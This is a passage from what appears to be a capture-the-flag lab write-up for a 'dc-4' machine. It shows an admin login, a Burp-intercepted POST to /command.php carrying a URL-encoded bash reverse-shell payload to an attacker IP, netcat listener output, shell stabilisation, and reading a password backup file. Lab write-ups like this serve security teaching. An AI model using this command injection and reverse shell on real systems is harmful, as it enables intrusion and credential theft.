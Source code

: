 Now we can login with username `admin` and the found password, and navigate to `/command.php`.

Here we can execute some commands from the UI, but if we `Intercept` a request with Burp Suite, we see it is a POST request with a parameter `radio`, which executes `linux` commands. So we can put there a bash reverse shell like the following: `bash -c 'exec bash -i &>/dev/tcp/192.168.49.117/443 <&1'`, but we have to URL-encode it first. The request in Burp Suite should look like this:


```shell
POST /command.php HTTP/1.1
Host: 192.168.142.195
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://192.168.142.195
Connection: close
Referer: http://192.168.142.195/command.php
Cookie: PHPSESSID=h8dn71jf3jkrrdgnd7u0a525f6
Upgrade-Insecure-Requests: 1

radio=bash+-c+'exec+bash+-i+%26>/dev/tcp/192.168.49.142/443+<%261'&submit=Run
```

Open a netcat listener and we get a reverse shell as `www-data`.

```shell
listening on [any] 443 ...
connect to [192.168.49.142] from (UNKNOWN) [192.168.142.195] 53996
bash: cannot set terminal process group (541): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dc-4:/usr/share/nginx/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-4:/usr/share/nginx/html$ ^Z
zsh: suspended  nc -lvnp 443

geobour98@kali:~$ stty raw -echo;fg
[1]  + continued  nc -lvnp 443 
www-data@dc-4:/usr/share/nginx/html$ export TERM=xterm-256color
www-data@dc-4:/usr/share/nginx/html$ stty rows 38 cols 111
www-data@dc-4:/usr/share/nginx/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Navigate to `/home/jim` and we see `local.txt`. Also, we see an interesting folder `backups`, which contains the file `old-passwords.bak`.


```shell
www-data@dc-4:/home/jim$ cat local.txt 
[REDACTED]
www-data@dc-4:/home/jim$ cd backups
www-data@dc-4:/home/jim/backups$ ls 
old-passwords.bak
```
